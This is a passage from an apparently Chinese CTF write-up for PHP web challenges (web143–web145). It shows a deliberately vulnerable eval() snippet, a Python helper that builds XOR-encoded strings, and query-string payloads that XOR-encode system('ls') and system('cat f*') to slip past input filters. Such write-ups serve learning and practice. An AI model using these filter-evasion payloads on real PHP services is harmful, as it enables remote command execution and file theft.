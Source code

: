 ```python
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```

payload:

```php
?v1=1&v2=1&v3=*("%13%19%13%14%05%0d"^"%60%60%60%60%60%60")("%03%01%14%00%06%00"^"%60%60%60%20%60%2a")*
```

## web144~异或

```php
<?php

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
} 
```

* \W   匹配非字母、数字、下划线。等价于 '[^A-Za-z0-9_]'。

直接构造 paylaod:

```php
# system(ls)
?v1=1&v3=1&v2=-("%13%19%13%14%05%0d"^"%60%60%60%60%60%60")("%0c%13"^"%60%60")  
    
# system('cat f*')
?v1=1&v3=1&v2=-("%13%19%13%14%05%0d"^"%60%60%60%60%60%60")("%03%01%14%00%06%00"^"%60%60%60%20%60%2a")
```

## web145~三元运算符
